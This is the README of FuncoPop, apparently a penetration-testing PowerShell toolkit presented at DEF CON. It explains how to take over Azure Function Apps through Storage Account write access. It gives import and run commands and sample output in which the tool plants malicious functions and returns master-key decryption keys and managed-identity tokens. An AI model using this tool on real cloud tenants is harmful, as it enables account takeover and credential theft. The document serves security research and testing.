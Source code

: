 ![FuncoPopLogo](https://notpayloads.blob.core.windows.net/images/FuncoPop-bg-final.png)
<br> 
[![licence badge]][licence] 
[![stars badge]][stars] 
[![forks badge]][forks] 
[![issues badge]][issues]

![Twitter Follow](https://img.shields.io/twitter/follow/kfosaaen.svg?style=social)
![Twitter Follow](https://img.shields.io/twitter/follow/thomas_elling.svg?style=social)

[licence badge]:https://img.shields.io/badge/license-New%20BSD-blue.svg
[stars badge]:https://img.shields.io/github/stars/NetSPI/FuncoPop.svg
[forks badge]:https://img.shields.io/github/forks/NetSPI/FuncoPop.svg
[issues badge]:https://img.shields.io/github/issues/NetSPI/FuncoPop.svg


[licence]:https://github.com/NetSPI/FuncoPop/blob/master/LICENSE.txt
[stars]:https://github.com/NetSPI/FuncoPop/stargazers
[forks]:https://github.com/NetSPI/FuncoPop/network
[issues]:https://github.com/NetSPI/FuncoPop/issues


### FuncoPop: PowerShell Tools for Attacking Azure Function Apps

FuncoPop includes functions and scripts that support attacking Azure Funtion Apps, primarily through exploiting Storage Account Access. In many environments, users are granted generous Storage Account permissions (Storage Account Contributor) in Azure RBAC, resulting in access to Storage Accounts that support Function Apps. This unintended cross-service access can give an attacker the ability to pivot through Storage Accounts to gain access to Function Apps. This access includes visibility into the Funtion App keys, ability to run code in the Function App containers, and the ability to access Managed Identities attached to the Function Apps.

These tools were initially released as part of the "What the Function: A Deep Dive into Azure Function App Security" talk from the DEF CON 31 Cloud Village.

### Author, Contributors, and License
* Author:
	* Thomas Elling ([@thomaselling](https://twitter.com/thomas_elling)), NetSPI
	* Karl Fosaaen ([@kfosaaen](https://twitter.com/kfosaaen)), NetSPI
* License: BSD 3-Clause
* Required Dependencies: Az PowerShell Module

### Tool Usage
There are two parts to this tool - Extraction and Decryption

## Key Extraction
In order to run the key extraction tool, you will need to have an authenticated Azure (Az) PowerShell login with some role that allows Read/Write access to a vulnerable Function App Storage Account. In Powershell, you will need to import the function in order to run it.

**Importing the function:**
	`Import-Module .\Invoke-AzFunctionAppTakeover.ps1`

Once imported, you can run the function:
  `Invoke-AzFunctionAppTakeover -Verbose`

```
VERBOSE: Currently logged in via Az PowerShell as kfosaaen@notatenant.com
VERBOSE: Use Connect-AzAccount to change your user
VERBOSE: Dumping Function App information for Selected Subscriptions...
VERBOSE:    Enumerating Function App attached Storage Accounts in the TestEnvironment subscription
VERBOSE:            Function App Storage Account Found - POCstorageAccount1 - mystarterapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - importantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount2 - lessimportantbankingapp Function App
VERBOSE:            Function App Storage Account Found - POCstorageAccount3 - managedidentityfunction Function App
[Truncated]
VERBOSE:    15 Function App Storage Accounts Enumerated in the Subscription
VERBOSE:    Dumping Function App information for selected Storage Accounts
VERBOSE:            Determining Function App Language of the managedidentityfunction function in the POCstorageAccount3 Storage Account
VERBOSE:                    Reviewing the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET folder found in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger1 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            ASP.NET file found in the site/wwwroot/HttpTrigger2 folder in the managedidentityfunctiona16a File Share
VERBOSE:                            Attempting to add a new ASP.NET function to the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account
VERBOSE:                                    Creating the MFRgBWvsDIlkyfT folder in the managedidentityfunctiona16a File Share in the POCstorageAccount3 Storage Account and uploading files
VERBOSE:                                    Sleeping for 60 seconds before calling the new function
VERBOSE:                                    Calling the new function (until it stops 404-ing) to return the tokens and decryption key, this may take a while...
VERBOSE:                                            Avoid hitting ctrl+C to break out of this, you will need to manually remove the added Storage Account files in order to clean up
VERBOSE:                                    Removing the files from the Storage Account
VERBOSE:            Completed attacking the managedidentityfunction Function App in the managedidentityfunctiona16a File Share

FunctionApp        : managedidentityfunction
EncryptedMasterKey : bm9[Truncated]=
EncryptionKey      : 1B1[Truncated]9
ManagementToken    : eyJ[Truncated]g
VaultToken         : eyJ[Truncated]g
GraphToken         : eyJ[Truncated]Q

VERBOSE: All Function App / Storage Account attacks have completed
```

The function will prompt you to select a Subscription to attack. Once it has enumerated vulnerable Storage Accounts, you will be prompted with a list of accounts to attack. Select the ones you want to attack and the function will add malicious functions to the Storage Accounts, and attempt to execute them. These malicious functions will return the decryption key for the Function App Master Key, along with Managed Identity tokens (*if available).

Please note that the function supports PowerShell, ASP.NET, Python, and Node for payloads. At this time, attacking Java Function Apps is not supported, but may be added in the future.

Required Module to install:
* <a href="https://docs.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-3.6.1">Az</a>

## Key Decryption
The easiest way to decrypt the keys returned from the PowerShell function is to run the Function App that we created to do the decryption.
### Host your own Function App to decrypt the keys
Use the following Deploy button to deploy a function app to your Azure subscription that can be used to decrypt the extracted keys.

[![Deploy to Azure](https://github.com/Azure-Samples/function-app-arm-templates/blob/main/images/deploytoazure.png?raw=true)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FNetSPI%2FFuncoPop%2Fmain%2Fazuredeploy.json)

![image](https://github.com/NetSPI/FuncoPop/assets/2163397/64504f17-d872-4094-9106-5f2fe4be03b7)




### Related Blogs
* <a href="https://www.netspi.com/blog/technical/cloud-penetration-testing/what-the-function-decrypting-azure-function-app-keys/">What the Function: Decrypting Azure Function App Keys</a>
* <a href="https://blog.netspi.com/lateral-movement-azure-app-services/">Lateral Movement in Azure App Services</a>

### Presentations
* <a href="https://github.com/NetSPI/FuncoPop">What the Function: A Deep Dive into Azure Function App Security - DEF CON 31 - Cloud Village</a>
  - <a href="https://github.com/NetSPI/FuncoPop/blob/main/WhatTheFunction-DC31_CV.pdf">Slides</a>

### Previous Research
* <a href="https://rogierdijkman.medium.com/privilege-escalation-via-storage-accounts-bca24373cc2e">Rogier Dijkman - Privilege Escalation via storage accounts</a>
* <a href="https://orca.security/resources/blog/azure-shared-key-authorization-exploitation/">Roi Nisimi - From listKeys to Glory: How We Achieved a Subscription Privilege Escalation and RCE by Abusing Azure Storage Account Keys</a>
* <a href="https://msrc.microsoft.com/blog/2023/04/best-practices-regarding-azure-storage-keys-azure-functions-and-azure-role-based-access/">MSRC - Best practices regarding Azure Storage Keys, Azure Functions, and Azure Role Based Access</a>
* <a href="https://medium.com/xm-cyber/10-ways-of-gaining-control-over-azure-function-apps-7e7b84367ce6">Bill Ben Haim & Zur Ulianitzky - 10 ways of gaining control over Azure function Apps</a>
* <a href="https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95">Andy Robbins – Abusing Azure App Service Managed Identity Assignments</a>


	
